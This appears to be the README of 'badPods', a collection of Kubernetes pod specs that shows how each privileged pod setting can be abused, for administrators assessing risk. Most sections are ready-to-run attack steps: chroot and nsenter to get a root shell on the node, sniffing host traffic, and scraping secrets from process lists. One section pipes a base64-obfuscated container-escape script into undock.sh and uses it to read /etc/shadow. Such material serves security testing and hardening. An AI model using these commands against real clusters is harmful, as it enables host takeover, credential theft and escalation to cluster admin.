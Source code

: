 # badPods

A collection of yamls that will create pods with different elevated privileges.    

## Background
Occasionally, containers within pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. As an administrator, you have ways to prevent the creation of pods with these security sensitive pod specifications, but it is not always clear what the real-world security implications of allowing certain attributes is.

## What's the worst that can happen?

This collection aims to help you quickly understand the impact of allowing specific security sensitive pod specifications, and some common combinations. 

## Prerequisites

1. Access to a cluster 
1. Permission to create pods and exec into them in at least one namespace
1. A pod security policy (or other pod admission controller's logic) that allows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all
1. No appArmor profile applied 

## Summary

Allowed Specification | What's the worst that can happen?
-- | --
\* | Gain cluster admin privileges 
hostPID + privileged |  Gain cluster admin privileges 
Unrestricted hostmount (/) | Gain cluster admin privileges 
privileged=true | Gain cluster admin privileges 
hostmount=true <br>readonlyfilesystem=true| Likely escalate to cluster admin 
hostpid | Kill and process on the node (DOS) <br>Access any secrets visable via ps -aux <br>Access sensitive applications and services 
hostnetwork | Sniff unencrypted traffic on any interface <br> Communicate with services that only listen on loopback, etc. <br> Potential path to gain cluster admin privileges  
hostipc | Not much on its own unless some services on the host are using hostIPC 

# Usage
 Each pod spec in the yamls directory targets a specific attribute or a combination of attributes that expose your cluster to risk. 



## Easy mode pod - You can create a pod with to all the things
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

[pod-chroot-node.yaml](yaml/pod-chroot-node.yaml)

```bash
# Create pod
kubectl [-n namespace] apply -f pod-chroot-node.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostpid -- chroot /host
# Do stuff in pod
# You now have full root access to the pod
```

Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/



## Nsenter pod - You can create a pod with privileged: true + hostPID

If you have `privileged=true` and `hostPID` available to you, you can use the `nsenter` command in the pod to enter PID=1 on the host, which allows also you gain a root shell on the host, which provides a path to cluster-admin. 

[pod-priv-and-hostpid.yaml](yaml/pod-priv-and-hostpid.yaml)

```bash
# Create pod
kubectl [-n namespace] apply -f pod-priv-and-hostpid.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-nsenter -- bash
# Use nsenter to gain full root access on the node
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

```

Reference(s): 
* https://twitter.com/mauilion/status/1129468485480751104
* https://github.com/kvaps/kubectl-node-shell

## Privonly pod - You can create a pod with only privileged: true

If you only have `privileged=true`, you can still get RCE on the host, and ultimately cluster-admin, but the path is more tedious. The exploit below escapes the container and allows you to run one command at a time. From there, you can launch a reverse shell.  



```bash
# Create pod
kubectl [-n namespace] apply -f pod-priv-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-privpod -- bash
#create undock script that will automate the container escape POC
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
# Then use the script to run whatever commands you want on the host: 
sh undock.sh "cat /etc/shadow"
```

Reference(s): 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 


## hostPIDonly pod - You can create a pod with only hostPID

If you only have `hostPID=true`, you most likely won't get RCE on the host, but you might find sensitive application secrets that belong to pods in other namespaces. This can be use to gain unauthorized access to applications and services in other namespaces or outside the cluster, and can potentially be used to further comprise the cluster. 

[pod-hostpid-only.yaml](yaml/pod-hostpid-only.yaml)

```bash
# Create pod
kubectl [-n namespace] apply -f pod-hostpid-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostpid -- bash
# View all processes running on the host and look for passwords, tokens, keys, etc.
ps -aux
#You can also kill any process, but don't do that in production :)

```

## hostNetwork pod - You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

[pod-hostnetwork-only.yaml](yaml/pod-hostnetwork-only.yaml)


```bash
# Create pod
kubectl [-n namespace] apply -f pod-hostnetwork-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostnetwork -- bash
# Install tcpdump and sniff traffic 
apt update && apt install tcpdump 
# Or investigate local services
curl https://localhost:1234/metrics
```


## hostIPC pod - You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the ipcs command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semephores). If you find one, you will likely need to create a program that can read them. 
Reference: https://opensource.com/article/20/1/inter-process-communication-linux

[pod-hostipc-only.yaml](yaml/pod-hostipc-only.yaml)

```bash
# Create pod
kubectl [-n namespace] apply -f pod-hostipc-only.yaml 
# Exec into pod 
kubectl -n [namespace] exec -it bf-hostipc -- bash
# Look for any use of inter= process communication on the host 
ipcs -a
```



# Remove pods
kubectl -n [namespace] delete -f pod-file-name.yaml
